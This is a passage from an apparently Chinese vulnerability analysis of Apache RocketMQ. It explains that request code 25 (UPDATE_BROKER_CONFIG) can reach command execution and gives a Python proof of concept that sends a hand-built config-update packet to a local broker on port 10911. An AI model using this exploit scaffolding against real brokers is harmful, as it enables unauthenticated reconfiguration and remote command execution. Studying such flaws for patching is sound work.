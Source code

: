 - 在`org.apache.rocketmq.remoting.protocol.RequestCode`类中可以找到字段对应的数值，可以看到`UPDATE_BROKER_CONFIG`的`code`字段的值为`25`

![](images/9.png)

- 因此，通过调整`code`字段的值可以来调用不同的功能，可以通过发送设定好的数据包，来达到命令执行的目的

```python
import socket, binascii

client = socket.socket()
client.connect(('127.0.0.1', 10911))

json = '{"code":25,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='filterServerNums=1\nnamesrvAddr=127.0.0.1:9876\nrocketmqHome=1'.encode('utf-8')

json_lens = int(len(binascii.hexlify(json).decode('utf-8')) / 2)
part1 = '00000000' + str(hex(json_lens))[2:]
all_lens = int(4 + len(binascii.hexlify(body).decode('utf-8')) / 2 + json_lens)
part2 = '00000000' + str(hex(all_lens))[2:]
data = part2[-8:] + part1[-8:] + binascii.hexlify(json).decode('utf-8') + binascii.hexlify(body).decode('utf-8')

client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

